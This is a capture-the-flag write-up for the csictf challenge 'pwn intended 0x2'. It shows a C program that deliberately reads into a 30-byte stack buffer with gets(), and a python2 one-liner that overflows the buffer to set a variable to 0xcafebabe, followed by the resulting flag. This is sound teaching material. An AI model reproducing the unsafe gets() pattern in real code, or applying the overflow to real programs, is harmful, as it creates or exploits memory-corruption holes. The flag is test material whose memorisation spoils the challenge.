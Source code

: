# pwn intended 0x2

Author: [roerohan](https://github.com/roerohan)

## Description

Buffer overflow to overwrite a variable in the same function.

## Requirements

- Basic Knowledge of Buffer Overflow

## Sources

- [pwn-intended-0x2](./bin/pwn-intended-0x2): Binary
- [pwn-intended-0x2.c](./bin/pwn-intended-0x2.c)

```c
#include <stdio.h>

int main() {
    int check = 0;
    char teleport[30];

    setbuf(stdout, NULL);
    setbuf(stdin, NULL);
    setbuf(stderr, NULL);

    puts("Welcome to csictf! Where are you headed?");
    gets(teleport);

    puts("Safe Journey!");
    if (check == 0xcafebabe) {
        puts("You've reached your destination, here's a flag!");
        system("cat flag.txt");
    }
}
```

```
Travelling through spacetime!
```

## Exploit

Similar to the [pwn-intended-0x1](./pwn%20intended%200x1) challenge, there is an array of `30 bytes`. The array `teleport` can be overflowed since the `gets()` function is used to read from it. Like in the previous challenge, the integer variable will occupy the last `4 bytes` before the `saved rbp`. The stack is of size 48, since that's the closest multiple of 16 after `30 + 4`.
<br />

The goal is to overwrite those last 4 bytes with `0xcafebabe`, but in little endian format. We can use `python2` to do this for us.

```bash
$ python2 -c "print 'a'*44 + '\xbe\xba\xfe\xca'" | ./pwn-intended-0x2
Welcome to csictf! Where are you headed?
Safe Journey!
You've reached your destination, here's a flag!
csictf{c4n_y0u_re4lly_telep0rt?}%
```

The flag is:

```
csictf{c4n_y0u_re4lly_telep0rt?}
```